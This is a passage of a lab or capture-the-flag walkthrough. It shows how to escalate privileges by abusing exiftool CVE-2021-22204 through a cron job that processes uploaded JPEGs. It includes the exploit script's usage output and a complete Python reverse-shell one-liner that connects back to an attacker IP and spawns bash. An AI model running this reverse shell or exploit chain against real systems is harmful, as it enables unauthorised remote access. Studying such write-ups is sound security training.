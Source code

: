 Looks like it reads files from `/var/www/html/subrion/uploads` and trusts that they are safe to process with `exiftool`, a metadata reader that supports multiple file formats ([docs](https://exiftool.org/)). Maybe there is an exploit in exiftool we can take advantage of.

14) We look-up exiftool with `searchsploit`:

<details><summary>`searchsploit` output</summary></details>

There is an arbitrary code execution exploit for at least version 12.23... time to check the version of `exiftool`. A quick google search tells me I can run `exiftool -ver`:

```
$ exiftool -ver
11.88
```

Looked up CVE associated with the available exploit (CVE-2021-22204) and found that the vulnerability affects `exiftool` versions between 7.44 and 12.23. Look at that... now we're cooking!

15) I run the exploit code in Kali to get usage:

```
--$ python /usr/share/exploitdb/exploits/linux/local/50911.py 
UNICORD Exploit for CVE-2021-22204

Usage:
  python3 exploit-CVE-2021-22204.py -c <command>
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port>
  python3 exploit-CVE-2021-22204.py -c <command> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -s <local-IP> <local-port> [-i <image.jpg>]
  python3 exploit-CVE-2021-22204.py -h

Options:
  -c    Custom command mode. Provide command to execute.
  -s    Reverse shell mode. Provide local IP and port.
  -i    Path to custom JPEG image. (Optional)
  -h    Show this help menu.

```

So it looks like we can feed this thing arbitrary commands and it will output a JPEG which would result in `exiftool` executing the commands. The script from the cron job reads files with filename containing the substring `jpg` from `/var/www/html/subrion/uploads`...

So we should be able to:

- a) feed this exploit script a reverse shell
- b) set up a local listener in our attacker machine (Kali)
- b) put the output JPEG in `/var/www/html/subrion/uploads` with a `.jpg` file extension
- d) wait to catch the shell in the local listener from (b)

16) First I'll test the reverse shell I plan to feed the exploit code...

16.1) We set up a listener on port 80 in Kali with `nc -lvnp 80`

16.2) We then run the reverse shell as the low-privilege user in the victim box:

```
$ python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.51\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

